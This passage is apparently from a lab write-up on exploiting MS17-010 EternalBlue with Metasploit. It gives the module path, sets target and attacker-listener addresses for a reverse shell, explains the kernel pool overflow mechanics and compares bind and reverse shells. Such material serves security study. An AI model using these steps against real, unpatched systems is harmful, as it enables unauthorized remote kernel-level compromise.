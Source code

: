 
### 2.2. Module Selection and Configuration

After confirming the likely presence of MS17-010, the attacker loads the dedicated Metasploit module:

```text
use exploit/windows/smb/ms17_010_eternalblue
```

Essential configuration steps:

* `show options` — list required parameters.
* `set RHOSTS 10.10.211.69` — specify the target host(s).
* `set LHOST 10.23.148.16` — attacker machine IP (listener for reverse shells).

`RHOSTS` identifies the remote target(s) and `LHOST` is required for reverse payloads so the compromised host knows where to connect back.

---

### 2.3. Technical Deep Dive: The EternalBlue Exploit in Action

When executed, the EternalBlue Metasploit module performs a carefully sequenced attack to trigger kernel code execution:

* **Core flaw:** A buffer overflow in `srv.sys` caused by an integer/size miscalculation (32-bit → 16-bit truncation) during File Extended Attributes (FEA) handling.
* **Kernel pool grooming:** The exploit performs “non-paged pool grooming” — sending SMBv2 buffers and other crafted requests to influence kernel memory layout. This makes the memory predictable so the overflow can be used reliably rather than crash the system.
* **Fragmented transaction overflow:** A large, fragmented SMBv1 transaction is sent. The server miscomputes an allocation size and `memmove` writes past the allocated buffer.
* **Controlled overwrite & code execution:** Due to grooming, the overflow overwrites an adjacent, attacker-controlled SMB buffer. Later processing (e.g., in `srvnet!SrvNetWskReceiveComplete`) triggers execution flow redirection (RIP), allowing the attacker’s payload to run in kernel context — providing the highest privilege level.
* **Payload history:** The original NSA exploit paired EternalBlue with a kernel backdoor called **DoublePulsar**. Public exploit frameworks like Metasploit replace such backdoors with their own userland or kernel payloads depending on goals.

---

### 2.4. Payload Analysis: Staged vs. Stageless and Bind vs. Reverse Shells

Choosing the right payload is crucial. The attacker here demonstrates sound operational practice by testing simple payloads first, then upgrading once access is confirmed.

#### 2.4.1. Connection Type — Bind vs. Reverse

* **Bind shell:** Victim listens on a port and waits for the attacker to connect. Simple, but inbound connections are often blocked by firewalls/NAT.
* **Reverse shell:** Victim initiates an outbound connection back to the attacker’s listener. More likely to succeed in modern networks because outbound traffic is typically allowed.
